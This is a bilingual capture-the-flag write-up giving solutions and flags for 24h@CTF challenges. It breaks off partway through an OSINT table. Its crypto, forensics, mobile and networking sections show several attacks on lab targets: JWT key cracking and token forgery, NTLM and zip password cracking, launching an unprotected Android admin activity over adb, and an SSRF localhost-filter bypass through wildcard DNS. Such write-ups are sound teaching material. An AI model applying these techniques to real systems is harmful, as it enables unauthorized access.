


Solutions des challenges offerts au 24h@CTF
<!-- truncate -->


## Crypto
<details>
  <summary>Doors 1 & 2</summary>

**Solution FR**

Pour la première partie, les participants doivent se connecter en tant qu'invité. Cela leur donne un cookie contenant un JWT. Ensuite, ils doivent décoder le JWT à l'aide d'un outil tel que [celui-ci](https://jwt.io).
Le JWT contient un champ appelé flag qui contient le premier flag.  

Pour la deuxième partie, le participant doit effectuer une attaque par force brute sur la clé utilisée pour générer le JWT. Cela peut être fait via John The Ripper:
`john jwt.txt --wordlist=rockyou.txt`  

La clé de signature est `gyarados500`. Une fois de plus, en utilisant jwt.io, le participant peut saisir la clé de signature et modifier le jeton pour
définir `is_admin` sur true, puis visiter la page /admin.html pour obtenir le flag.

---

**Solution EN**

For the first part, the participants needs to login as a guest. That gives them a cookie containing a JWT. They then need to decode the JWT using a tool like [this one](https://jwt.io).
The JWT contains a field named `flag` that contains the first flag.

For the second part, the participant needs to bruteforce the key used to generate the jwt. This can be done via John The Ripper:
`john jwt.txt --wordlist=rockyou.txt`

The signing key is `gyarados500`. Once again using [jwt.io](https://jwt.io), the participant can input the signing key and modify the token to set `is_admin` to `true` and then visit the `/admin.html` page to get the flag.

---

**Flag**s

1. `polycyber{JwtAreN0t3ncrypt3d}`

2. `polycyber{WhyW0uldYouUseAPa$$wordAsAKey?}` 

---
</details>

<details>
  <summary>Illumination</summary>

**Solution FR**

Il faut d'abord remplacer les nombres en hexadécimal par leur correspondance selon le code ASCII. On obtient alors une phrase qui contient à nouveau des caractères spéciaux. Ceux-ci forment un message encodé en base64. Lorsque cette chaîne de caractères en base64 est décodée, on obtient le flag.

---

**Solution EN**

You first need to replace the numbers in hexadecimal with their corresponding ASCII codes. This will give you a sentence that contains special characters again. These special characters form a message encoded in base64. When you decode this base64 string, you'll get the flag.

---

**Flag**

`polycyber{b4r5_c4n7_h0ld_my_m1nd}`

---
</details>

<details>
  <summary>Interception</summary>

**Solution FR**

Voici deux solutions de résoudre le défi.

Tout d'abord, il est possible de placer le hash dans un fichier `hash.txt` et d'utiliser hashcat avec le dictionnaire rockyou.txt pour retrouver le mot de passe avec la commande suivante: `hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt`. L'option `-m` permet d'indiquer à hashcat que le hash fourni est de type NTLM.

Une autre façon est d'utiliser des solutions en ligne qui ont déjà calculer le hash, comme le site [hashes.com](https://hashes.com) par exemple.

---

**Solution EN**

Here are two solutions to solve the challenge.

Firstly, you can place the hash in a file `hash.txt` and use hashcat with the rockyou.txt dictionary to find the password with the following command: `hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt`. The `-m` option specifies to hashcat that the provided hash is of type NTLM.

Another way is to use online solutions that have already calculated the hash, such as the website [hashes.com](https://hashes.com), for example.

---

**Flag**

`polycyber{michikitolindo}`

---
</details>

## Forensics

<details>
  <summary>The Victim 1</summary>

**Solution FR**

Il est possible de voir que le fichier n'ouvre pas avec un lecteur de PDF. En roulant "file" sur le fichier, il est possible de voir que c'est en fait un VDI. Après avoir remis l'extension originale et à l'aide d'Arsenal Image Mounter, il est possible d'ouvrir le fichier et de consulter le système de fichier. 
Il est ensuite possible de récuperer le fichier flag.txt, puisque celui-ci est à la racine du système de fichier de la VM.

---

**Solution EN**

It is possible to see that the file does not open with a PDF reader. By running "file" on the file, it can be seen that it is actually a VDI. After changing back the file extension and by using Arsenal Image Mounter, it is possible to open the file and examine the file system.
It is then possible to retrieve the file flag.txt since it is at the root of the VM's file system.

---

**Flag**

`polycyber{THe_miS5ION_R3@lLY_stARTs_HErE}`

---
</details>

<details>
  <summary>The Victim 2</summary>

**Solution FR**

On sait que le directeur de la prison aiment bien les photos de prisons. S'il l'on va dans le dossier Pictures de l'utilisateur director, il est possible de voir qu'il est plein de photos de prisons. Il risque d'avoir des problèmes de permissions pour accéder au contenu du dossier. Pour régler ce problème, il faut ouvrir le disque en mode "Write temporary" puis changer les permissions du dossier dans le disque monté.

En exécutant exiftool sur toutes les photos de prison extraites du disque, puis en faisant un grep sur le polycyber, il est alors possible de trouver le flag. (Il est possible d'exécuter exiftool sur le contenu d'un dossier avec l'option -r).

---

**Solution EN**

We know that the prison director enjoys prison photos. If we go to the Pictures folder of the director's user, it is possible to see that it is full of prison photos. There may be permission issues while trying to access the folder's content. To resolve this issue, it is necessary to open the disk in 'Write temporary' mode and then change the permissions of the folder on the mounted disk.

By running exiftool on all the prison photos extracted from the disk, and then using grep for "polycyber," it is then possible to find the flag. (It is possible to run exiftool on the contents of a folder with the -r option).

---

**Flag**

`polycyber{Dylan_Perry}`


---
</details>

<details>
  <summary>The Victim 3</summary>

**Solution FR**

Puisque l'on sait que l'on cherche des infos sur Dylan Perry. La description du défi parle aussi de la pointe de l'iceberg. Il s'avère que dans le dossier Public/Pictures contiennent plusieurs photos d'iceberg.

Les images sont toutes nommées par deux lettres séparée d'un trait de soulignement. Puisque l'on cherche des informations sur Dylan Perry, et qu'une des images est nommées d_p.png, il est possible de venir à la conclusion que c'est la bonne image à analyser. Elle est aussi plus grosse que les autres images présentes dans le dossier.

Avec un outil comme OpenStego, il est possible d'extraire un fichier zip de l'image. En décompressant le zip, on obtient 3 fichier: le flag, le fichier list.txt et une deuxième archive nommée Dylan_Perry.zip.

---

**Solution EN**

Since we know that we are looking for information about Dylan Perry, and the challenge description also mentions the tip of the iceberg, it turns out that the Public/Pictures folder contains several photos of icebergs.

The images are all named with two letters separated by an underscore. Since we are seeking information about Dylan Perry, and one of the images is named d_p.png, it is possible to conclude that this is the correct image to analyze. It is also larger than the other images in the folder.

Using a tool like OpenStego, it is possible to extract a zip file from the image. By decompressing the zip, you get three files: the flag, the file list.txt, and a second archive named Dylan_Perry.zip

---

**Flag**

`polycyber{One_mORE_5TEp_BeFOrE_Th3_eNd}`

---
</details>

<details>
  <summary>The Victim 4</summary>

**Solution FR**

Le principe du dernier défi est de simplement cracker le mot de passe d'une archive zip à l'aide d'une attaque par dictionnaire. La liste de mot de passe est fournie lors de la complétion du défi 3.
1. Convertir le zip en un format crackable pour john avec: zip2john Dylan_Perry.zip > zip.hash
2. Le fichier venait avec un liste de mot de passe, un simple: john --wordlist=list.txt zip.hash devrait être suffisant pour trouver le mot de passe
3. Le flag se trouve directement dans l'archive Dylan_Perry.zip

---

**Solution EN**

The principle of the last challenge is simply to crack the password of a zip archive using a dictionary attack. The password list is provided when completing challenge 3.

1. Convert the zip file into a format crackable by John with: zip2john Dylan_Perry.zip > zip.hash
2. Since the file comes with a password list, a simple: john --wordlist=list.txt zip.hash should be sufficient to find the password.
3. The flag is directly inside the Dylan_Perry.zip archive.

---

**Flag**

`polycyber{4ccE$s_To_d47a_Gr4NT3D}`


---
</details>

## Misc

<details>
  <summary>Cafeteria Meals 2</summary>


**Solution FR**

Note: Il est important de lire Cafeteria Meals 1 d'abord pour comprendre.

1. Comprendre que /guid est une liste de GUID
2. Rechercher en quoi consiste une version non sécuritaire d'un GUID, comme fortement suggéré par la description du défi. On trouve sur Google qu'il existe 5 versions d'un GUID, soit (0,1,2,3,4) et que la version 1 n'est pas sécuritaire.
3. Utiliser une expression régulière pour trouver le GUID version 1 dans la liste.
4. Soumettre ce dernier dans le formulaire de la page d'accueil pour obtenir le deuxième flag.

---

**Solution EN**

Note: It's important to read Cafeteria Meals 1 first to understand.

1. Understand that /guid is a list of GUIDs
2. Find out what a non-secure version of a GUID consists of, as strongly suggested by the challenge description. Google and you'll find that there are 5 versions of a GUID (0,1,2,3,4), and that version 1 is unsafe.
3. Use a regular expression to find the GUID version 1 in the list.
4. Submit it in the form on the home page to obtain the second flag.

---

**Flag**

`polycyber{in53cur3_guid_v3r51on_on3_bdf23f1a}`

---
</details>

<details>
  <summary>Perl meets Brain</summary>

**Solution FR**

1. Interpréter le code avec Perl. Ceci est fortement suggéré par la description du défi. Perl est installé par défaut sur plusieurs distributions Linux.
2. Interpéter le résultat avec un interpréteur Brainfuck.

Pour les curieux, le code Perl a été généré grâce à un sympathique outil du nom de perlfuck. D'où l'idée "Perl rencontre Brain".

[perlfuck repo](https://github.com/Dwarf1er/perlfuck)

---

**Solution EN**

1. Interpret the code with Perl. This is strongly suggested by the challenge description. Perl is installed by default on many Linux distributions.
2. Interpret the result with a Brainfuck interpreter.

For the curious people out there, the Perl code was generated using a nice tool called perlfuck. Hence the "Perl meets Brain" idea.

[perlfuck repo](https://github.com/Dwarf1er/perlfuck)

---

**Flag**

`polycyber{who_kn3w_br41nfuck_w45_n0t_al0n3_d32c1afa22}`

---
</details>


<details>
  <summary>Read the Rules</summary>

**Solution FR**

Si on lit réellement les règles, on remarque que l'avant-avant dernière ligne des règles explique comment former le flag:

`Il est obligatoire de placer "rules" dans les accolades du format proposé plus bas pour valider le premier défi.`

Le format proposé plus bas est `^polycyber{.+}$`, donc on obtient `polycyber{rules}`.

---

**Solution EN**

If one actually reads the rules, it is noticed that the second-to-last line of the rules explains how to form the flag:

`It is mandatory to place "rules" inside the curly braces of the format proposed below to validate the first challenge.`

The proposed format below is `^polycyber{.+}$`, so the result is `polycyber{rules}`.

---

**Flag**

`polycyber{rules}` ou/or `polycyber{"rules"}`

---
</details>


## Mobile

<details>
  <summary>Hive Hex Solitary Timer</summary>

**Solution FR**

Il y a probablement moyen de le faire en désobfusquant le code Dart, mais ce n'est pas l'approche préconisée.
Si on assume qu'on ne tente pas de désobfusquer le code, voici les étapes:

1. Télécharger l'application sur un téléphone Android et autoriser son installation.
2. Se configurer un setup pour voir les communications vers l'externe. L'application est déjà configurée pour accepter les certificats utilisateurs et l'inspection cleartext au besoin. Si BurpSuite ne fonctionne pas, alors PCAPdroid va fonctionner. Installer PCAPdroid sur son téléphone.
3. Lancer le compteur sur l'application (le fichier .dart nous indique que ça peut être intéressant) tout en activant une capture avec PCAPdroid.
4. Constater que des requêtes http:// sont faites vers ch0ufleur.dev avec une séquence hexadécimale.
5. Avec le code Dart, on comprend que le code hexadécimal est la valeur ajoutée à l'URL et que cette valeur est construite à l'aide d'autres fonctions du même fichier.
6. Toujours en inspectant les communications, on comprend que l'adresse URL masquée dans le fichier Dart est celle de getAdress(), soit : api.ipify.org
7. Avec de la recherche on comprend que cela permet d'obtenir l'IP publique du téléphone.
8. Ensuite il faut comprendre le XOR entre le flag et la séquence \[temps restant\]+IP+\[temps restant\]+IP+\[temps restant\]+IP+\[temps restant\]+IP.
9. On peut faire l'inverse en utilisant fromCharCode et XOR dans Cyberchef en entrant la séquence en UTF-8 dans le key de XOR. On obtient le flag.

---

**Solution EN**

There is probably a way to do this by deobfuscating the Dart code, but this is not the recommended approach.
If we assume that we're not trying to deobfuscate the code, here are the steps:

1. Download the application on an Android phone and authorize its installation.
2. Configure a setup to view external communications. The application is already configured to accept user certificates and cleartext inspection as required. If BurpSuite doesn't work, then PCAPdroid will. Install PCAPdroid on your phone.
3. Run the timer on the application (the .dart file indicates that this could be interesting) while activating a capture with PCAPdroid.
4. Note that http:// requests are made to ch0ufleur.dev with a hexadecimal sequence.
5. Using the Dart code, we understand that the hexadecimal code is the value added to the URL and that this value is constructed using other functions in the same file.
6. Still inspecting communications, we understand that the URL address hidden in the Dart file is that of getAdress(), i.e.: api.ipify.org
7. With a little research, we understand that this allows us to obtain the phone's public IP.
8. Next, you need to understand the XOR between the flag and the sequence \[remaining time]+IP+[remaining time]+IP+[remaining time]+IP+[remaining time]+IP.
9. You can do the opposite using fromCharCode and XOR in Cyberchef, entering the UTF-8 sequence in the XOR key. The result is the flag.

---

**Flag**

`polycyber{x0r_and_4pk_mix}`

---
</details>


<details>
  <summary>Ungoing Cafeteria Development</summary>

**Solution FR**

*Le fichier .apk final a été passé dans un obfuscateur et n'est pas dispo dans ce repo*

Il y a deux façons principales de le résoudre.

La première est de décompiler le apk et chercher dans le code les classes "custom". DrawingView.kt montre différentes actions DrawRect avec des coordonnées.
Un reverse engineer motivé peut se faire un petit script qui parse les coordonnées et qui reproduit le dessin sur un plan cartésien pour dessiner le flag, ou encore exécuter le code dans un autre contexte.

La deuxième façon est la façon prévue:
1. Constater la présence d'une activité Admin dans le AndroidManifest.xml
2. Installer l'application
3. Connecter adb 
    - adb devices
    - adb shell
4. Une fois dans le téléphone, on peut déclencher l'activité non protégée directement en ligne de commande pour accéder à l'interface d'administration
5. \# am start -n com.example.cafeteriaapp/.AdminActivity
6. La page admin s'ouvre sur l'application et révèle le flag dessiné avec des rectangles.

NOTE: Android version 29 ou moins doit être utilisé. Ceci est indiqué par la description et pourrait forcer le participant à installer un émulateur avec Android Studio qui cible la bonne version. Il s'agit alors d'une étape de plus à prendre en compte.


---

**Solution EN**

*The final .apk file has gone through an obfuscator and is not present in this repo*

There are two main ways of solving this problem.

The first is to decompile the apk and search the code for custom classes. DrawingView.kt shows various DrawRect actions with coordinates.
A motivated reverse engineer can create a small script that parses the coordinates and reproduces the drawing on a Cartesian plane to draw the flag, or execute the code in another context.

The second way is the intended way:
1. Check for the presence of an Admin activity in the AndroidManifest.xml file.
2. Install the application
3. Connect adb 
    - adb devices
    - adb shell
4. Once on the phone, you can trigger the unprotected activity directly from the command line to access the administrative interface
5. \# am start -n com.example.cafeteriaapp/.AdminActivity
6. The admin page opens on the application and reveals the flag drawn with rectangles.

NOTE: Android version 29 and under must be used. This is hinted by the challenge description and may force the participant to install an emulator with Android Studio, having the required version.


---

**Flag**

`polycyber{3HH7}`

---
</details>

## Networking

<details>
  <summary>Doorman 1, 2 & 3</summary>

**Solution FR**

#### Étudier le protocole

Pour commencer, vous devez d'abord ouvrir le fichier `.pcap` dans Wireshark pour analyser les données envoyées entre le client et le serveur. Nous pouvons voir une conversation entre 172.17.0.1 (semblant être un client) et 172.17.0.2 (semblant être un serveur) sur le port 8998.

Tout d'abord, l'utilisateur est accueilli avec un message TCP contenant: `\x00\x16\x12\x14KEY:c6131e45816ac6e6` (24 octets). Immédiatement après, le client répond.

Cela signifie que le client a compris que le message du serveur était probablement terminé. Si nous regardons le début du message, nous pouvons voir `\x00\x16`. Puisque `0x16 == 0x0016 == 22`, nous pouvons raisonnablement supposer que les deux premiers octets représentent la taille du message sans l'en-tête de 2 octets.

Pour récapituler, chaque message que nous envoyons devrait ressembler à (pseudocode):

```c
struct message {
    u16_t msg_len;
    u8_t msg[msg_len];
};
```

Le premier message a maintenant une séquence d'octets inconnue `\x12\x14`.
Le deuxième octet peut avoir son utilisation déduite puisque `\x14 == 20`, qui est la longueur du texte brut `KEY:...` après. Cependant, `\x12` semble inconnu.

Le deuxième message envoyé ressemble à: (sans l'en-tête de 2 octets)

```none
\x12\x16\x0a\x05admin\x12\x08\xb6rm6\xf6\x05\xb4\x82\x1a\x03198
```

À partir de cela, nous pouvons également voir beaucoup d'octets `\x12`. En effectuant des recherches en ligne avec des requêtes telles que "protocoles avec octet \x12", nous pouvons voir quelques résultats mentionnant protobuf.

Sur un éditeur en ligne tel que [Cyberchef](https://gchq.github.io/CyberChef/#recipe=Fork('%5C%5Cn','%5C%5Cn',false)From_Hex('Auto')Protobuf_Decode('',false,true)&input=MTIxNDRiNDU1OTNhNjMzNjEzMzMxNjUzNDM1MzgzMTM2NjE2MzU2CjEyMTYwYTA1NjE2NDZkNjk2ZTEyMDhiNjcyNmQzNmY2MDViNDgyMWEwMzMxMzkzOA==), nous pouvons voir que les deux messages semblent être des messages Protobuf valides.

En analysant les types affichés sur Cyberchef, nous pouvons construire un protobuf de base pour les messages reçus:

```protobuf
message ResponseKey {
    string msg = 2;
}

message RequestLogin {
    string username = 1;
    string password = 2;
    string otp = 3;
}

message ActualMessage {
    RequestLogin login = 2;
}
```

#### Premier flag

Maintenant que nous savons que le serveur utilise Protobuf, nous pouvons essayer d'obtenir le premier flag.

Nous pouvons essayer de simuler une connexion, à travers la même requête envoyée par l'utilisateur, cependant, nous sommes informés que nos identifiants ne correspondent pas.

Cela signifie que le mot de passe est probablement chiffré, ce qui nécessiterait une clé, que le serveur nous a gentiment envoyée au début.

En effectuant un simple XOR avec [Cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')XOR(%7B'option':'Hex','string':'c6131e45816ac6e6'%7D,'Standard',false)&input=YjYgNzIgNmQgMzYgZjYgMDUgYjQgODI), nous pouvons voir que le mot de passe est ... `password`.

Ensuite vient le `otp`. Cependant, en expérimentant avec celui-ci, nous pouvons voir qu'il s'agit du premier octet de la clé.

Avec cela, nous pouvons construire un message de connexion valide.

Après nous être connectés, nous pouvons décoder le premier message envoyé par le client:

```protobuf
message RequestDoor {
    int32 id = 1;
}

message ActualMessage {
    int32 id = 1;
    RequestLogin login = 2;
    RequestDoor door = 3;
}
```

Notez que protobuf attribue par défaut des valeurs vides à 0 (la plupart du temps).

Nous pouvons ensuite essayer de forcer d'autres champs, comme le champ = 2 dans la requête, et nous pouvons voir que la porte s'ouvre et nous obtenons le flag.

Cela se produit parce que le champ = 2 est `false` par défaut, ce qui signifie de ne pas ouvrir la porte.

#### Deuxième flag

Pour le deuxième flag, nous pouvons regarder le deuxième message envoyé.

Selon CyberChef, la requête ressemble à quelque chose comme:

```json
{
    "1": 2,
    "4": {
        "1": "log_0.txt",
        "2": 0
    }
}
```

Maintenant, si nous construisons sur ce que nous savions auparavant, cela pourrait être simplifié à:

```protobuf
message RequestWithFileName {
    string fileName = 1;
    int32 something = 2;
}

message ActualMessage {
    int32 id = 1;
    RequestLogin login = 2;
    RequestDoor door = 3;
    RequestWithFileName file = 4;
}
```

La sortie du serveur après cette demande semble être le contenu du fichier. Cependant, en essayant de faire une traversée de chemin ou autre chose à la place de `log_0.txt`, cela semble ne pas fonctionner, le serveur répondant que les fichiers ne sont pas accessibles.

Cependant, en changeant la valeur du deuxième champ (`something`) à 1, nous pouvons voir une liste de répertoire, montrant le fichier `flag.txt`.

Maintenant, en essayant de lire le contenu de ce fichier révèle notre deuxième flag.

#### Troisième flag

Le flag précédent a révélé un fichier nommé `flag_admin.txt`, cependant, essayer d'y accéder ne semble pas fonctionner. Si nous regardons la prochaine demande émise dans le pcap, nous pouvons voir qu'elle ressemble à quelque chose comme cela:

```json
{
    "1": 3,
    "5": {
        "1": "Subject 2217429 has exited his cell",
        "2": "cams.24hctf"
    }
}
```

De plus, lors de la réception de la demande, le serveur effectue une demande à 172.17.0.3, qui est probablement l'adresse résolue de `cams.24hctf`.

Si nous essayons de réassembler cela en langage protobuf réel, nous pouvons essayer de déduire que cela ressemble à ceci:

```protobuf
message RequestWithHost {
    string data = 1;
    string dnsName = 2;
}

message ActualMessage {
    int32 id = 1;
    RequestLogin login = 2;
    RequestDoor door = 3;
    RequestWithFileName file = 4;
    RequestWithHost host = 5;
}
```

En essayant l'hôte où se trouve le défi, le serveur répond avec `"\000\026\022\024KEY:90488afdc37624e0\000 \010\001\022\034Invalid password or username"`. Cela semble très familier, et le serveur nous envoie essentiellement la sortie de sa requête.
drapeau
Maintenant, nous avons un SSRF :). Il est temps de l'exploiter. Ce qui est amusant, c'est que les serveurs ont généralement confiance en localhost, et donc cela pourrait nous mener à lire le `flag_admin.txt` précédent.

Le problème est que essayer `localhost` et `127.0.0.1` ne fonctionne pas. Cela nous donne quelques erreurs:

- `Pas de localhost !!!`
- `Le nom d'hôte ne correspond pas à Regex: ^[0-9A-Za-z\.]+\.[A-Za-z]+$`

Un truc amusant que nous pouvons essayer est de coder différemment l'adresse IP, cependant cela échouerait également car l'expression régulière attend à ce que la fin soit une chaîne de caractères.

Le serveur attend essentiellement n'importe quel nom DNS valide, tant qu'il ne contient pas la chaîne `localhost` et se termine par une chaîne alphabétique (pour le TLD).

Cette protection peut cependant être contournée, car le DNS est un service tiers, faisant correspondre des noms à des adresses IP. Qui dit qu'il ne pourrait pas y avoir un nom qui se résout en 127.0.0.1?

La recherche en ligne de services qui redirigent vers des adresses IP personnalisées semble nous amener vers des services comme https://sslip.io/ et https://nip.io/.

En utilisant l'un de ces services avec localhost, nous pouvons contourner l'authentification et obtenir le `flag_admin.txt`.


---

**Solution EN**

#### Reversing the protocol

To get started, you must first open the `.pcap` file in Wireshark to analyze the data being sent between the client and server.
We can see a conversation between 172.17.0.1 (seems like a client) and 172.17.0.2 (seems like a server) on port 8998.

Firstly, the user is greeted with a TCP message with the contents: `\x00\x16\x12\x14KEY:c6131e45816ac6e6` (24 bytes). Immediately after, the client responds.

This means that the client understood the server's message was probably over. If we look at the beginning of the message, we can see `\x00\x16`.
Since `0x16 == 0x0016 == 22`, we can safely assume that the first two bytes represent the size of the message without the 2 byte header.

So to recap, each message we send should look like (pseudocode):

```c
struct message {
    u16_t msg_len;
    u8_t msg[msg_len];
};
```

The first message now has an unknown `\x12\x14` byte sequence.
The second byte can have its use deduced since `\x14 == 20` which is the length of the plaintext `KEY:...` after. However, `\x12` seems unknown.

The second message sent looks like: (without 2 byte header)

```none
\x12\x16\x0a\x05admin\x12\x08\xb6rm6\xf6\x05\xb4\x82\x1a\x03198
```

From this, we can also see a lot of `\x12` bytes. By looking online with queries like "protocols with \x12 byte", we can see a few results mentioning protobuf.

On an online editor such as [Cyberchef](https://gchq.github.io/CyberChef/#recipe=Fork('%5C%5Cn','%5C%5Cn',false)From_Hex('Auto')Protobuf_Decode('',false,true)&input=MTIxNDRiNDU1OTNhNjMzNjMxMzMzMTY1MzQzNTM4MzEzNjYxNjMzNjY1MzYKMTIxNjBhMDU2MTY0NmQ2OTZlMTIwOGI2NzI2ZDM2ZjYwNWI0ODIxYTAzMzEzOTM4), we can see that both messages seem to be valid Protobuf messages.

By analyzing the types shown on Cyberchef, we can construct a basic protobuf for received messages:

```protobuf
message ResponseKey {
    string msg = 2;
}

message RequestLogin {
    string username = 1;
    string password = 2;
    string otp = 3;
}

message ActualMessage {
    RequestLogin login = 2;
}
```

#### First flag

Now that we know the server deals in Protobuf, we can try and get the first flag.

We can try to simulate a login, through the same request sent by the user, however, we are notified that our credentials do not match.

This means the password is probably encrypted, which would call for a key, which the server has kindly sent to us at first.

By performing a simple XOR with [Cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')XOR(%7B'option':'Hex','string':'c6131e45816ac6e6'%7D,'Standard',false)&input=YjYgNzIgNmQgMzYgZjYgMDUgYjQgODI), we can see that the password is ... `password`.

Next is the `otp`. However, by experimenting with it, we can see it is the first byte of the key.

With this, we can construct a valid login message.

After we are logged in, we can decode the first message sent by the client:

```protobuf
message RequestDoor {
    int32 id = 1;
}

message ActualMessage {
    int32 id = 1;
    RequestLogin login = 2;
    RequestDoor door = 3;
}
```

Note that protobuf defaults its empty values to 0 (most of the time).

We can then try to brute force other fields, like the field = 2 in the request, and we can see that the door opens and we get the flag.

This happens because the field = 2 is `false` by default, meaning to not open the door.

#### Second flag

For the second flag, we can look at the second message being sent.

According to CyberChef, the request looks something like:

```json
{
    "1": 2,
    "4": {
        "1": "log_0.txt",
        "2": 0
    }
}
```

Now if we build on top of what we knew before, it could be simplified to:

```protobuf
message RequestWithFileName {
    string fileName = 1;
    int32 something = 2;
}

message ActualMessage {
    int32 id = 1;
    RequestLogin login = 2;
    RequestDoor door = 3;
    RequestWithFileName file = 4;
}
```

The output from the server after this request seems to be the file's content. However, by trying to do a path traversal or anything else instead of `log_0.txt` seems to not work, with the server answering that the files are not accessible.

However, by changing the value of the second field (`something`), to 1, we can see a directory listing, showing the file `flag.txt`.

Now trying to read this file's contents reveals our second flag.

#### Third flag

The previous flag revealed a file named `flag_admin.txt`, however, trying to access it does not seem to work. If we look at the next request issued in the pcap, we can see it looks something like this:

```json
{
    "1": 3,
    "5": {
        "1": "Subject 2217429 has exited his cell",
        "2": "cams.24hctf"
    }
}
```

Furthermore, upon receiving the request, the server makes a request to 172.17.0.3, which is probably the resolved address of `cams.24hctf`.

If we try to reassemble this into actual protobuf language, we can try to deduce it looks like this:

```protobuf
message RequestWithHost {
    string data = 1;
    string dnsName = 2;
}

message ActualMessage {
    int32 id = 1;
    RequestLogin login = 2;
    RequestDoor door = 3;
    RequestWithFileName file = 4;
    RequestWithHost host = 5;
}
```

Trying the host where the challenge is hosted, the server replies with `"\000\026\022\024KEY:90488afdc37624e0\000 \010\001\022\034Invalid password or username"`. This seems awfully familiar, and the server is basically sending us the output from its request.

We now have an SSRF :). Time to exploit it. What's fun about this is that servers usually trust localhost, and so it could lead our way to reading the `flag_admin.txt` from before.

The issue is trying `localhost` and `127.0.0.1` does not work. It gives us a few errors:

- `No localhost!!!`
- `Hostname does not match Regex: ^[0-9A-Za-z\.]+\.[A-Za-z]+$`

A funky trick we can try is encoding the IP address differently, however this would also fail as the regex expects the ending to be a string.

The server is basically expecting any valid DNS name, as long as it does not contain the string `localhost` and ends with an alphabetical string (for the TLD).

This protection though can be bypassed, as DNS is a third party service, mapping names to IP addresses. Who says there couldn't be a name that resolves to 127.0.0.1?

Searching online for services that redirect to custom IPs seems to bring us to services like https://sslip.io/> and https://nip.io/.

By using one of these with localhost, we can bypass the authentication and get the `flag_admin.txt`.

---

**Flag**s

1. `polycyber{pR0t0b00f_15_c0oL_RiGh7?}`

2. `polycyber{i_W0nd_er_wh47s_nXt}`

3. `polycyber{inc3pt_10n_937hnfuy3t7dt35}`

---
</details>

## OSINT

<details>
  <summary>SteganOsint 1</summary>

**Solution FR**

En cherchant sur Google les mots "croisement saint ambroise saint augustin maison" on tombe sur un article de la BAnQ intitulé ["Bonheur d’occasion : le reflet de la vie ouvrière d’autrefois"](https://www.banq.qc.ca/explorer/articles/bonheur-doccasion-le-reflet-de-la-vie-ouvriere-dautrefois/). Ce titre nous rappelle l'indice de l'énoncé: "La maison du bonheur ?". Cet article parle du livre [*Bonheur d'occasion*](https://fr.wikipedia.org/wiki/Bonheur_d'occasion_(roman)) de Gabrielle Roy. En se renseignant sur ce roman on apprend que c'est la maison de Jean Lévesque, le personnage principal du livre.

L'image est une partie du tableau de Miyuki Tanobe, [*La maison de Jean Lévesque*](https://www.galeriecosner.com/fr/catalogue/miyuki-tanobe/8608-la-maison-de-jean-levesque.html).


---

**Solution EN**

By searching on Google for the words "saint ambroise saint augustin maison" we come across an article from the BAnQ entitled ["Bonheur d’occasion : le reflet de la vie ouvrière d’autrefois"](https://www.banq.qc.ca/explorer/articles/bonheur-doccasion-le-reflet-de-la-vie-ouvriere-dautrefois/). This title reminds us of the clue in the statement: "La maison du bonheur ?". This article talks about the book [*Bonheur d'occasion*](https://fr.wikipedia.org/wiki/Bonheur_d'occasion_(roman)) by Gabrielle Roy. By inquiring about this novel we learn that it is the house of Jean Lévesque, the main character of the book.

The image is a part of the painting by Miyuki Tanobe, [*La maison de Jean Lévesque*](https://www.galeriecosner.com/fr/catalogue/miyuki-tanobe/8608-la-maison-de-jean-levesque.html).

---

**Flag**

`polycyber{jean_lévesque}`

---
</details>


<details>
  <summary>SteganOsint 2</summary>

**Solution FR**

En cherchant les endroits où ont été prises les photos on peut remarquer quelque chose: elles sont prises dans des avenues numérotées de Montréal.

En trouvant dans quelle avenue est prise chaque photo on obtient la suite de numéros suivante:
18, 5, 14, 3, 15, 14, 20, 18, 5, 1, 21, 13, 9, 12, 12, 5, 21, 14, 16, 12, 1, 3, 5, 10, 5, 1, 14, 16, 1, 21, 12, 18, 9, 15, 16, 5, 12, 12, 5

En remarquant que tout les nombres sont inférieurs à 26 on peut les convertir en lettre (avec [CyberChef](https://gchq.github.io/CyberChef/#recipe=A1Z26_Cipher_Decode('Space')&input=MTgsIDUsIDE0LCAzLCAxNSwgMTQsIDIwLCAxOCwgNSwgMSwgMjEsIDEzLCA5LCAxMiwgMTIsIDUsIDIxLCAxNCwgMTYsIDEyLCAxLCAzLCA1LCAxMCwgNSwgMSwgMTQsIDE2LCAxLCAyMSwgMTIsIDE4LCA5LCAxNSwgMTYsIDUsIDEyLCAxMiwgNQ) par exemple) et on trouve (en rajoutant les espaces):

        rencontre au mille un place jean paul riopelle

Avec une recherche Google on trouve que le 1001 Place Jean-Paul Riopelle correspond à l'adresse du Palais des Congrès.

Pour trouver les lieux des photos:

| Avenue | Photos                   | Solution possible                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|--------|--------------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 1ère   | 10, 21, 26, 29           | On peut lire sur la photo qu'il s'agit de l'école Saint Marc                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| 3ème   | 4, 22                    | Recherche par image sur Google et on trouve [cette page](https://ville.montreal.qc.ca/murales/detail/167) qui nous donne l'emplacement.                            |
| 5ème   | 2, 9, 16, 23, 25, 36, 39 | On peut lire le nom d'un magasin "La shop techno" et une recherche Google nous donne l'adresse                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
